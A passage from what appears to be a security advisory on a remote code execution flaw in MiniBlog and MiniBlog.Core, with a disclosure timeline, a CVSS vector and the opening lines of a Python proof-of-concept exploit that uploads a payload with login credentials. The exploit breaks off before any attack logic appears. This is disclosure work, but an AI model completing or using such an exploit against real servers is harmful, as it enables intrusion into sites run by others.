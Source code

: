 ![](/assets/images/2019-03-16-miniblog-remote-code-execution/aspx-path.png)

The same vulnerability was also identified within the Miniblog.Core project with the slight difference that the filename to be used can be specified in the `data-filename` attribute of the `img` element as opposed to using the MIME type to determine the file extension.

Disclosure Timeline
-------------------
- **2019-03-15**: Vulnerability found, patch created and CVEs requested
- **2019-03-15**: Reach out to vendor to begin disclosure
- **2019-03-16**: CVE-2019-9842 and CVE-2019-9845 assigned to the MiniBlog and MiniBlog.Core vulnerabilities respectively
- **2019-03-16**: Discus with vendor and provide patch
- **2019-03-16**: Patch published to GitHub for both projects

CVSS v3 Vector
--------------
[AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H/E:F/RL:O/RC:C](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H/E:F/RL:O/RC:C)

Proof of Concept Exploit (CVE-2019-9842)
----------------------------------------
```python
import base64
import re
import requests
import os
import sys
import string
import random

if len(sys.argv) < 5:
    print 'Usage: python {file} [base url] [username] [password] [path to payload]'.format(file = sys.argv[0])
    sys.exit(1)

username = sys.argv[2]
```